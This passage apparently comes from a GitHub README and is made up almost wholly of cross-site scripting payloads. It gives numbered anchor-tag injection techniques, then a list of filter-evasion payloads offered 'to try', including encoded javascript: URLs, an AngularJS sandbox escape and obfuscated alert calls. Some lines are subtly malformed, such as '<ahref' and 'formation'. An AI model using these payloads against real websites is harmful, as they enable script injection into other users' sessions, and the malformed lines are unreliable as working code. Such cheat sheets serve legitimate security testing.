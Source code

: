 4. **Incorporating JavaScript into `href`:**
    ```html
    <a href="javascript:void(alert())">click me</a>
    ```

5. **Using `Object.defineProperty`:**
    ```html
    <a href="#" id="uniqueLink">click me</a>
    <script>Object.defineProperty(window, 'cl', {get: function() { alert(); }});document.getElementById('uniqueLink').href = 'javascript:cl';</script>
    ```

6. **Using Encoded JavaScript:**
    ```html
    <a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;& #97;&#108;&#101;&#114;&#116;&#40;&#41;">click me</a>
    ```
7. **Running through `top`:**
    ```html
    <a href="javascript:top['alert'](window.name)" name="1">click me</a>
    ```

8. **`onmouseover` attribute for Click Action:**
     ```html
     <a href="#" onmouseover="alert();">click me</a>
     ```

9. **Injection through `innerHTML`:**
     ```html
     <ahref="#" id="dynamicLink">click me</a>
     <script>document.getElementById('dynamicLink').innerHTML = '<a href="javascript:alert()">click me</a>';</script>
     ```

10. **`onfocus` event with `tabindex`:**
     ```html
     <a href="#" onfocus="alert()" tabindex="1">click me</a>
     ```

## Some XSS payloads to try

If you can get an XSS with any payload from here, please let me know, I'll be happy to know!

```html
<object/data=javascript:alert()>
<a/href="javascript%0A%0D:alert()">
<svg onpointerenter=z=alert,z(document.domain)>
<button formation=javascript:z=top;x=document;y=x.domain; z[/al/.source+/ert/.source](y)>XSS</button>
>>

'\"><a href=\"&#74;avascript&#x3a;self['\\x61\\x6c\\x65\\x72\\x74']('\\x58\\x53\\x53' )\">test</a

{{toString.constructor.prototype.toString=toString.constructor.prototype.call;[\u0022a\u0022,\u0022alert(1)\u0022].sort(toString.constructor);}}
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;[\"a\",\"alert(1)\"].sort(toString.constructor);}}

<script>/&/-alert(1)</script>
<script>/&/-alert(1)</script>

%00%00%00%00%00%00%00<script>alert(1)</script>

<bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click

<script>alert.call(null,1)</script> (alert.call(%20, "XSS");)
```